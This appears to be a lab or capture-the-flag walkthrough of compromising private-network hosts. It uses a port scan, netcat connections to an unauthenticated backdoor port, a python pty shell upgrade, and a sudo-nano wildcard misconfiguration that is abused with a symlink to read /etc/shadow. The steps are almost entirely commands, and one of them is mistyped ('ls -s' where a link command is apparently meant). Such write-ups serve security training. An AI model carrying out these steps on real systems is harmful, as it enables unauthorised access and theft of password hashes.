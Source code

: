172.16.80.22
172.16.80.24
172.16.80.27
172.16.80.26


### Task1

#### Unauthenticated backdoor
- 172.16.80.27

#### Scan the ports
```
nmap -sS 172.16.80.27 -p-

60666/tcp open unknown
```

#### connect to the uncommon port
```
nc 172.16.80.27 60666
- listening on [any] 60667 = it appears that it has a backdoor in the 60667 port, lets connect 
nc 172.16.80.27 60667
// we have user access
```

#### get a better shell with python
```
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

#### check if the user can run any program as root
```
sudo -l
/bin/nano /home/*/*/readme.txt
```

  // it seems that we can run nano with root privileges in that specific folder
  // the file does not exist, so lets create it
 
#### create the file

```
cd /home/<user> && mkdir foo && cd foo
ls -s /etc/shadow readme.txt
```

> this will create a symbolic link to the /etc/shadow file

```
ls -als
```

#### grab the file as root
```
sudo /bin/nano /home/<user>/foo/readme.txt
```
